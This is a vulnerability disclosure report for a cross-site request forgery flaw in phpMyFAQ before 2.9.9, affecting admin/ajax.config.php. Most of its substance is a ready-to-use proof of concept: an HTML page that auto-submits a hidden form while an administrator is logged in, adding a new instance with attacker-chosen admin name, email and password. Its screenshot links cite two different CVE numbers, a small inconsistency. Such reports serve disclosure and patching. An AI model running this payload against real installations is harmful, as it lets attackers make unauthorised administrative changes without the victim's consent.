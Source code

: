 # Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

    1. Save the following code as `poc.html`.
     2. Log in phpmyfaq, and open the file in the same browser.
     3. The following outcome will occur:
     4. Begin: 

![Image](assets/CVE-2017-15801-1.png)

5. After: 

![image](assets/2017-15808-2.png)

 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

